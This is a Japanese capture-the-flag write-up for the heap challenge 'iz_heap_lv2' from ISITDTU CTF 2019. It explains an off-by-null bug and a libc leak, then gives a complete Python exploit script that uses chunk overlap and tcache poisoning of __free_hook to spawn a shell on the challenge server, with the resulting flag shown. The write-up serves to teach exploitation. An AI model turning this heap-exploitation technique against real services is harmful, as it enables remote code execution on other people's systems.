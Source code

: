 # [pwn 676pts] iz_heap_lv2 - ISITDTU CTF 2019
64ビットでPIE以外有効です。
```
$ checksec -f iz_heap_lv2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      Yes	0		2	iz_heap_lv2
```
ヒープ系問題ですが、さっきと違ってnameはなくなり、代わりにaddしたデータをshowできるようになっています。また、インデックスのチェックは直っています。
相変わらずサイズチェックが間違っているので巨大なチャンクをmallocしてfreeすれば簡単にlibcのアドレスが求まります。しかし、double freeはなさそうです。
よく見るとデータを読み込む関数にoff-by-nullがあります。
あとはunsorted binに入るような巨大なチャンクを作ってoff-by-nullでくっつけてやればfree済みのチャンクを変更できます。

```python
from ptrlib import *

def add(size, data):
    sock.sendlineafter("Choice: \n", "1")
    sock.sendlineafter("size: ", str(size))
    sock.sendafter("data: ", data)

def edit(index, data):
    sock.sendlineafter("Choice: \n", "2")
    sock.sendlineafter("index: ", str(index))
    sock.sendafter("data: ", data)

def delete(index):
    sock.sendlineafter("Choice: \n", "3")
    sock.sendlineafter("index: ", str(index))

def show(index):
    sock.sendlineafter("Choice: \n", "4")
    sock.sendlineafter("index: ", str(index))
    sock.recvuntil("Data: ")
    return sock.recvline()

libc = ELF("./libc.so.6")
libc_main_arena = 0x3ebc40
libc_one_gadget = 0x4f322#0x10a38c
delta = 0x60
#sock = Process("./iz_heap_lv2")
sock = Socket("165.22.110.249", 4444)

# libc leak
add(0x4f7, "B") # 0
add(0x4f7, "A") # 1
delete(0)
delete(1)
add(0x4f7, "A" * 8) # 0
libc_base = u64(show(0)[8:]) - libc_main_arena - delta
logger.info("libc base = " + hex(libc_base))

# chunk overlap
add(0x410, "1111") # 1
add(0x28, "2222")  # 2
add(0x4f0, "3333") # 3
add(0x20, "44444") # 4
delete(1)
edit(2, b"2" * 0x20 + p64(0x450))
delete(3)
delete(2)

# tcache poisoning
payload = b'A' * 0x418 + p64(0x31) + p64(libc_base + libc.symbol("__free_hook"))
add(0x800, payload) # 1
add(0x27, "dummy") # 2
add(0x27, p64(libc_base + libc_one_gadget)) # 3

# get the shell!
delete(2)

sock.interactive()
```

やったー。
```
$ python solve.py 
[+] __init__: Successfully connected to 165.22.110.249:4444
[+] <module>: libc base = 0x7fd6146e7000
[ptrlib]$ cat /home/iz_heap_lv2/flag
ISITDTU{TcAch3_C4ch3_F1LL1Ng_UnL1NKKKKKK_1Z_h34P_LvTw0}[ptrlib]$
```

# 感想
なんだかんだでoff-by-nullを使ったのは初めてだったので競技中に解けてよかったです。